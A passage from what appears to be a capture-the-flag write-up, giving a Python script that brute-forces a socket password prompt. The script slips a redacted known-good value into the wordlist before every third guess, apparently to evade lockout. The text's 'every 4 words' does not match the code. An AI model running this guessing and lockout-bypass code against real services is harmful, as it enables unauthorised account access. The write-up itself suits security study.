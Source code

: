 ```python
# Creating temporary wordlist
temp_wlist = open("/tmp/tmp_wlist", "a")
for index, password in enumerate(wlist):
    if index % 3 == 0:
        temp_wlist.write("<REDACTED>\n")
    temp_wlist.write(password)

# Closing wordlist files
wlist.close()
temp_wlist.close()

# Looping through temporary wordlist file
temp_wlist = open("/tmp/tmp_wlist", "r")
for line in temp_wlist.readlines():
    time.sleep(0.5)
    print(f"[i] Trying {line.strip()}")
    try:
        s.sendall(line.strip().encode())
        response = s.recv(1024).decode()

        if response != "Password:\n":
            print(f"[+] {line.strip()} might be the password. It returned: {response}")
            choice = input("Continue? [y/n] -> ")
            if choice != "y":
                exit(0)
    except socket.timeout:
        print("[-] Response timeout!")
        continue

# Closing temporary wordlist file
temp_wlist.close()

# Deleting temporary file
os.system("rm /tmp/tmp_wlist")
```

This script is similar to the first one, the difference being it will create a temporary wordlist from the provided wordlist in the `WORDLIST_PATH` variable. This temporary wordlist will contain the valid endpoint once every 4 words, for example:

**Original wordlist**
```text
pass1
pass2
pass3
pass4
pass5
```

**Temporary wordlist**
```text
<REDACTED>
pass1
pass2
pass3
<REDACTED>
pass4
pass5
```
